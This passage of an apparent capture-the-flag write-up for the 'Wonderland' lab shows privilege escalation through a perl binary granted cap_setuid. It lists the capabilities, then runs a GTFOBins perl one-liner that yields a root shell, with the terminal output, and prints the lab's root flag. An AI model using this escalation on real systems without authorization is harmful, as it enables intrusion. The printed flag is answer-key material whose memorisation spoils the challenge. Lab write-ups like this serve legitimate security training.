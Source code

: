 ```bash
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
# 8. Let Get Root 
### Let search on gtfobin for perl Capabilities
![Screenshot from 2024-04-06 01-43-55](https://github.com/Esther7171/Wonderland/assets/122229257/cfe08d6f-8449-4d22-9aa6-5a2602edfffb)

### So let run this 
## I just modify last line of sh to bash ```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'```
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```
```bash
hatter@wonderland:~$ whoami
hatter
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# 
```
## Boom !! 
```bash
root@wonderland:~# ls
linpeas.sh.save  password.txt
root@wonderland:~# cd /home/alice/
root@wonderland:/home/alice# cat root.txt 
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
root@wonderland:/home/alice# 
```
# 😄
